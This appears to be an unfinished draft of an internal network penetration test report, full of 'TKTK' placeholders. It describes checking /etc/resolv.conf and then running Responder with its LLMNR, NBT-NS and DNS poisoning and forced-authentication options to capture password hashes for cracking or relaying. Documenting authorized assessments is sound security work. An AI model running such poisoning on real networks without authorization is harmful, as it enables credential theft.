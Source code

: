 ## Internal Network Penetration Test
# Discovery

Prior to commencing with the assessment, the assessor confirmed the testing scope with the client and the goals of the assessment. The assessor initiated the assessment by connecting to the client’s internal network via the TKTK how?. The TKTK connection provided the assessor direct access to VLAN TKTK on the local network.

# Enumeration & Vulnerability Mapping

The assessor initiatetd the examination by identifying the network information provided in the DHCP lease, which was automatically obtained after connecting to the network. This information is found in the `/etc/resolv.conf` file and includes DNS information, which is typically associated with Active Directory (AD) domains. This file listed `TKTK` as the search domain with TKTK DNS servers, as shown below.

~~~
cat /etc/resolv.conf
~~~

Next, the assessor started `responder`, a tool to listen for vulnerable broadcast traffic. This tool sends spoofed responses to a variety of vulnerable traffic such as Link Local Multicast Name Resolution (LLMNR) and NetBIOS Name Resolution (NBT-NS) in an attempt to coerce other devices and users into authenticating to our attacking computer and provide credential material such as password hashes for offline cracking or relaying to other machines. The assessor noticed [>> TKTK a large amount of broadcast LLMNR and NBT-NS traffic vulnerable to this spoofing attack.]

~~~
responder -I eth0 -wrfFPb
 
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]
 
[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON] 
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]  
    FTP server                 [ON]  
    IMAP server                [ON] 
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON] 
    LDAP server                [ON]
    RDP server                 [ON]
 
[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [ON]
    Force Basic Auth           [ON]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [ON]

[+] Generic Options: TKTK:
    Responder NIC              []
    Responder IP               []
    Challenge set              []
    Don't Respond To Names     ['TKTK']
~~~